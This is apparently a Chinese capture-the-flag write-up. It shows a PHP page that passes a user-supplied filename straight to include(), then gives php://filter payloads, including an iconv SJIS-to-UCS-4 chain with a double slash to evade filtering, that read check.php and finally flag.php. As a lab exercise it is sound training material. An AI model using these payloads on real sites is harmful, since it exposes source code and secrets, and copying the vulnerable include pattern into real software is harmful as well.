

解析

```csharp
<?php
highlight_file(__FILE__);        // 高亮显示当前PHP文件源代码
include("./check.php");          // 包含检查文件（可能包含安全过滤逻辑）

if(isset($_GET['filename'])) {   // 检查是否传入filename参数
    $filename = $_GET['filename'];  // 获取用户传入的文件名
    include($filename);           // 直接包含该文件
}
?>
```

?filename=php://filter/convert.base64-encode/resource=./check.php，并没有得到flag


尝试绕过
?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=index.php
php://filter是PHP的一种输入/输出流过滤器，用于对资源进行转换操作。
convert.iconv.SJIS*.UCS - 4*表示使用iconv转换，将编码从SJIS相关编码转换为UCS - 4相关编码。
resource=index.php表示要处理的资源是“index.php”文件
将恶意代码用 SJIS 编码后，再通过 convert.iconv 转换为 UCS-4 编码
*通配符可能绕过了过滤规则中对特定编码格式的检查
URL 中的双斜杠 // 可能被某些解析器处理为单斜杠，绕过路径检查

?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=./check.php但是并没有得到flag


?filename=php://filter//convert.iconv.SJIS*.UCS-4*/resource=./flag.php得到flag


